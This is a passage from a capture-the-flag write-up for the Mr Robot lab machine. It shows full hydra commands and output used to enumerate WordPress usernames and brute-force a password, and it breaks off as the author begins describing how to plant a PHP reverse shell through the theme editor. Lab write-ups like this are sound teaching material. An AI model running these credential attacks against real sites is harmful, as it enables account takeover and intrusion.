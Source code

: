 ```console
$ hydra -v -L /usr/share/seclists/Usernames/Names/names.txt -p password -S mrrobot http-post-form "/wp-login.php:log=^USER^&pwd=^PASS^&wp-submit=Log+In:Invalid username."
Hydra v9.1 (c) 2020 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2022-01-14 09:53:31
[DATA] max 16 tasks per 1 server, overall 16 tasks, 10177 login tries (l:10177/p:1), ~637 tries per task
[DATA] attacking http-post-forms://mrrobot:443/wp-login.php:log=^USER^&pwd=^PASS^&wp-submit=Log+In:Invalid username.
[VERBOSE] Resolving addresses ... [VERBOSE] resolving done
[STATUS] 840.00 tries/min, 840 tries in 00:01h, 9337 to do in 00:12h, 16 active
[STATUS] 599.00 tries/min, 1797 tries in 00:03h, 8380 to do in 00:14h, 16 active
[STATUS] 313.14 tries/min, 2192 tries in 00:07h, 7985 to do in 00:26h, 16 active
[443][http-post-form] host: mrrobot   login: elliot   password: password
[ERROR] Received signal 2, going down ...
The session file ./hydra.restore was written. Type "hydra -R" to resume session.
```

After about seven minutes, hydra receives a response without the "Invalid username." text and the username used was "elliot". Now we can try brute forcing elliot's password with the dictionary file we downloaded earlier.

```console
$ hydra -R -v -l elliot -P fsocity.dic -S mrrobot http-post-form "/wp-login.php:log=^USER^&pwd=^PASS^&wp-submit=Log+In:The password you entered for the username"
Hydra v9.1 (c) 2020 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

[INFORMATION] reading restore file ./hydra.restore
[WARNING] options after -R are now honored (since v8.6)
Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2022-01-14 11:56:14
[DATA] max 16 tasks per 1 server, overall 16 tasks, 858235 login tries (l:1/p:858235), ~53640 tries per task
[DATA] attacking http-post-forms://mrrobot:443/wp-login.php:log=^USER^&pwd=^PASS^&wp-submit=Log+In:The password you entered for the username
[VERBOSE] Resolving addresses ... [VERBOSE] resolving done
[STATUS] 9674.00 tries/min, 9674 tries in 00:01h, 848561 to do in 01:28h, 16 active
[STATUS] 3278.00 tries/min, 9834 tries in 00:03h, 848401 to do in 04:19h, 16 active
[STATUS] 1456.57 tries/min, 10196 tries in 00:07h, 848039 to do in 09:43h, 16 active
[STATUS] 726.13 tries/min, 10892 tries in 00:15h, 847343 to do in 19:27h, 16 active
[STATUS] 396.39 tries/min, 12288 tries in 00:31h, 845947 to do in 35:35h, 16 active
[STATUS] 292.02 tries/min, 13725 tries in 00:47h, 844510 to do in 48:12h, 16 active
[STATUS] 240.59 tries/min, 15157 tries in 01:03h, 843078 to do in 58:25h, 16 active
```

You may notice the output listing above is incomplete. After three hours of getting throttled, restarting the box, and resuming my hydra session, I gave up and just grabbed the correct password from the walkthrough video.

## Opening a Reverse Shell
Once logged into the admin dashboard, we can modify the current theme's PHP code to be a reverse shell. You just need to navigate to Appearance > Editor and then select the 404 template.
